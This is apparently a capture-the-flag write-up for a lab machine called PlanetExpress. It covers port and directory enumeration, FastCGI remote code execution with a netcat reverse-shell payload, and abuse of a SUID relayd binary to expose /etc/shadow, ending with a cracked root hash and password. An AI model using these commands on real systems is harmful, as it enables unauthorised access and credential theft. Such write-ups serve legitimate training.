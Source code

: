 # PlanetExpress

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.183.205
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 22:27 +08
Nmap scan report for 192.168.183.205
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9000/tcp open  cslistener

Nmap done: 1 IP address (1 host up) scanned in 35.83 seconds
```

Did a detailed scan to enumerate port 80 and 9000 further:

```
$ sudo nmap -p 80,9000 -sC -sV -O --min-rate 4000 -Pn 192.168.183.205
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 22:31 +08
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-generator: Pico CMS
|_http-title: PlanetExpress - Coming Soon !
9000/tcp open  cslistener?
```

Port 8000 was running Pico CMS, which does have some exploits.&#x20;

### Web Enum --> PHPInfo

Port 80 had a countdown:

<figure><img src="../../../.gitbook/assets/image (1) (16).png" alt=""><figcaption></figcaption></figure>

There isn't much on this page, so we can do a `gobuster` directory scan with the PHP extension since PicoCMS was being used:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.183.205/ -x php -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.183.205/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/07/09 22:35:49 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 5176]
/content              (Status: 301) [Size: 320] [--> http://192.168.183.205/content/]
/themes               (Status: 301) [Size: 319] [--> http://192.168.183.205/themes/]
/assets               (Status: 301) [Size: 319] [--> http://192.168.183.205/assets/]
/plugins              (Status: 301) [Size: 320] [--> http://192.168.183.205/plugins/]
/vendor               (Status: 301) [Size: 319] [--> http://192.168.183.205/vendor/]
/config               (Status: 301) [Size: 319] [--> http://192.168.183.205/config/]
```

Using the PicoCMS Github repository, we can view more about these directories.&#x20;

{% embed url="https://github.com/picocms/Pico/tree/master" %}

Viewing the `config.yml` file shows that this is indeed running PicoCMS:

```
$ curl http://192.168.183.205/config/config.yml
##
# Basic
#
site_title: PlanetExpress
base_url: ~

rewrite_url: ~
debug: true
timezone: ~
locale: ~

##
# Theme
<TRUNCATED>
## 
# Self developed plugin for PlanetExpress
#
#PicoTest:
#  enabled: true
```

There's also a custom plugin developed for this website, and we can visit that at `plugins/PicoTest.php` based on the Github repo. This would show us the PHPInfo of the site:

<figure><img src="../../../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>

Here, we can find that `/var/www/html/planetexpress` is the document root. Also, we can find a lot of disabled functions:

<figure><img src="../../../.gitbook/assets/image (2) (13).png" alt=""><figcaption></figcaption></figure>

### FastCGI --> RCE

There wasn't much else on the webpage for us to test, however there was still port 9000. Googling it revealed that it was running FastCGI:

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi" %}

There are RCE exploits for this service [here](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75). The script given allows us to inject PHP code into the service to be run. However, there are a lot of functions that are disabled based on `PicoTest.php`. I checked the functions against all functions that are able to execute system commands via PHP, and `passthru` was not disabled.

Using `passthru` and the document root directory allows us to get RCE:

<figure><img src="../../../.gitbook/assets/image (3) (12).png" alt=""><figcaption></figcaption></figure>

We can then get a reverse shell via the `mkfifo` one-liner.&#x20;

{% code overflow="wrap" %}
```
$ python2 exploit.py -c '<?php passthru("bash -c \"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.45.218 80 > /tmp/f\""); ?>' 192.168.183.205 /var/www/html/planetexpress/plugins/PicoTest.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4) (9).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Relayd SUID --> Shadw Hash

I searched for SUID binaries and found one that stood out:

```
$ find / -perm -u=s -type f 2>/dev/null
<TRUNCATED>
/usr/sbin/relayd
<TRUNCATED>
```

We can check the help menu for this :

```
www-data@planetexpress:/home/astro$ /usr/sbin/relayd --help
Usage: relayd [options] [actions]
Actions:
  default action      start daemon
  -h                  show this help message
  -v                  show version info
  -k                  kill running daemon
  -s                  get running status
  -U                  hup (reload configs)
  -a [service]        add service for relay
  -r [service]        remove service for relay
  -i                  get real client ip
  -b [up|down]        broadcast the DS boot state
  -R                  reopen the log file
Options:
  -C [file]           read config from file
  -d                  enable debug mode. will not run in background
  -P [file]           set pid file for daemon
  -g [ip]             remote source ip
  -n [port]           remote source port
```

The option that stood out the most to me was the `-C` flag, because it allows us to read from files. I attempted to read the `/etc/shadow` file:

```
www-data@planetexpress:/tmp$ /usr/sbin/relayd -C /etc/shadow
[ERR] 2023-07-09 10:53:48 config.cpp:1539 write
[ERR] 2023-07-09 10:53:48 config.cpp:1213 open failed [/usr/etc/relayd/misc.conf.tmp.12217]
[ERR] 2023-07-09 10:53:48 config.cpp:1189 bad json format [/etc/shadow]
[ERR] 2023-07-09 10:53:48 invalid config file

www-data@planetexpress:/tmp$ ls -la /etc/shadow
-rw-r--r-- 1 root shadow 940 Jan 10  2022 /etc/shadow
```

This made the file readable by all. We can then grab the `root` hash:

{% code overflow="wrap" %}
```
www-data@planetexpress:/tmp$ cat /etc/shadow
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:19003:0:99999:7:::
```
{% endcode %}

We just need to put this hash and the entry for `root` in `/etc/passwd` into another file, then run `unshadow` to convert it to a crackable hash.

{% code overflow="wrap" %}
```
$ cat hash  
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:19003:0:99999:7:::
$ cat passwd       
root:x:0:0:root:/root:/bin/bash
$ unshadow passwd hash
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:0:0:root:/root:/bin/bash
```
{% endcode %}

Then, we can crack it in `john` (or in my case, just show because I cracked it before):

```
$ john --show root_hash                                     
root:neverwant2saygoodbye:0:0:root:/root:/bin/bash

1 password hash cracked, 0 left
```

We can then `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (5) (4).png" alt=""><figcaption></figcaption></figure>

Rooted!
